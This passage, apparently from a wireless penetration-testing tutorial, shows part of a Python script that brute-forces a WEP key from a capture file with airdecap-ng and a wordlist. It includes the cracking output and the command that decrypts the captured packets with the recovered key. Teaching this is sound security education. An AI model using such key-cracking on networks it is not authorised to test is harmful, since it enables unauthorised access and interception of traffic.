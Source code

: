 ```python

    # Check if the key was successful
    if int(output.split('\n')[5][-1]) > 0:
        print(f"Success! WEP key found: {key}")
        end_time = time.time()
        print(f"Total time: {end_time - start_time:.6f} seconds")
        sys.exit(0)

# If no key was found
print("No WEP key found")

```

In the above Python script, the capture file `WEP-01.cap` is assigned to the `capture_file` variable, while the password list is loaded into the `wordlist` variable. The script then iterates through the list of passwords in a for-loop, using `airdecap-ng` to test each one. Afterwards, the script checks the output for the line containing `'Number of decrypted WEP packets'`. If the number of decrypted packets is greater than 0, it indicates that the packet was successfully decrypted and the correct WEP key has been found.

```shell
python3 bruteforce.py

6: Trying Key: b'12345' Hex: b'3132333435'
27: Trying Key: b'empty' Hex: b'656d707479'
125: Trying Key: b'11111' Hex: b'3131313131'
182: Trying Key: b'money' Hex: b'6d6f6e6579'
220: Trying Key: b'angel' Hex: b'616e67656c'
227: Trying Key: b'enter' Hex: b'656e746572'
229: Trying Key: b'chris' Hex: b'6368726973'
245: Trying Key: b'james' Hex: b'6a616d6573'
263: Trying Key: b'floor' Hex: b'666c6f6f72'
279: Trying Key: b'tiger' Hex: b'7469676572'
284: Trying Key: b'55555' Hex: b'3535353535'
<SNIP>
49910: Trying Key: b'crass' Hex: b'6372617373'
49921: Trying Key: b'conni' Hex: b'636f6e6e69'
49950: Trying Key: b'cious' Hex: b'63696f7573'
49951: Trying Key: b'chupa' Hex: b'6368757061'
49965: Trying Key: b'chiar' Hex: b'6368696172'
49972: Trying Key: b'cheek' Hex: b'636865656b'
Success! WEP key found: b'cheek'
Total time: 6.088396 seconds

```

As demonstrated in the output above, the brute-force process successfully identified the password as `cheek`. Its corresponding hexadecimal value is `636865656b`.

With the correct key in hand, we can now decrypt any WEP-encrypted data captured during the session using `airdecap-ng`, allowing further analysis of network traffic using tools like Wireshark.

```shell
airdecap-ng -w 636865656b WEP-01.cap

Total number of stations seen            2
Total number of packets read             9
Total number of WEP data packets         7
Total number of WPA data packets         0
Number of plaintext data packets         0
Number of decrypted WEP  packets         7
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets         0
Number of bad TKIP (WPA) packets         0
Number of bad CCMP (WPA) packets         0

```